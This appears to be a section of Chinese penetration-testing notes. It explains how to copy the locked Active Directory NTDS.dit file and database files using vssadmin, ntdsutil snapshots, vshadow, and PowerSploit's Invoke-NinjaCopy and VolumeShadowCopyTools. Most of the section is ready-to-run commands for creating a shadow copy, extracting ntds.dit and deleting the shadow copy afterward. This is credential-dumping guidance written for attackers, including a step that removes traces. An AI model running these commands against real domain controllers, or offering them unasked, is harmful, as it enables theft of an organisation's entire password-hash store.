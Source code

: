 ### 8.9 渗透中常用的复制工具

在渗透中经常需要复制像NTDS.dit、mssql数据库文件等关键文件。由于这些文件都被占用,所以不能直接复制。下面介绍几个常用的命令or工具来实现复制

**VSSadmin**

域环境默认安装。

**使用：**

创建卷影

    vssadmin create shadow /for=c:
    
        

获取当前卷影

    vssadmin list shadow 
    
        

从卷影复制文件

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit c:\ntds.dit 
    
        

删除卷影

    vssadmin delete shadows /for=c: /quiet
    
        

* * *

**ntdsutil**

域环境默认安装

创建快照

    ntdsutil snapshot "activate instance ntds" create quit quit 
    
        

挂载快照

    ntdsutil snapshot "mount {22508acf-8a01-4322-867d-383cf78f59e3} quit quit
    快照挂载为C:\$SNAP_201912231558_V0LUMEC$\，copy ntds即可 
    
        

卸载快照

    ntdsutil snapshot "unmount {22508acf-8a01-4322-867d-383cf78f59e3}" quit quit 
    
        

删除快照

    ntdsutil snapshot "delete {22508acf-8a01-4322-867d-383cf78f59e3}" create quit quit
    
        

* * *

**Vshadow**

不是系统默认工具，可在Microsoft SDK中获取

创建快照

    vshadow.exe -p -nw C: 
    
        

获取快照列表

    vshadow.exe -q
    
        

复制

    copy Shadow copy device "Name"\windows\NTDS\ntds.dit c:\ntds.dit 
    
        

删除快照

    vshadow -ds={ID}
    
        

**Ninjacopy**

ninjacopy是powersploit中的一个powershell脚本直接使用 Invoke-NinjaCopy -Path <需要复制的文件> -LocalDestination <复制文件保存位置> 即可复制

**VolumeShadowCopyTools**

属于powersploit的项目，地址VolumeShadowCopyTools，之前遇到上面介绍的方法都不能复制数据库文件，使用这个工具成功复制

创建卷影

    New-VolumeShadowCopy -Volume C:\
    
        

列出卷影

    Get-VolumeShadowCopy
    
        

挂载卷影

    Mount-VolumeShadowCopy -Path C:\Users\public -DevicePath \\?
    \GLOBALROOT\Device\HarddiskVolumeShadowCopy1   可直接在挂载点操作了 
    
        

卸载卷影

    Remove-VolumeShadowCopy -DevicePath \\?
    \GLOBALROOT\Device\HarddiskVolumeShadowCopy1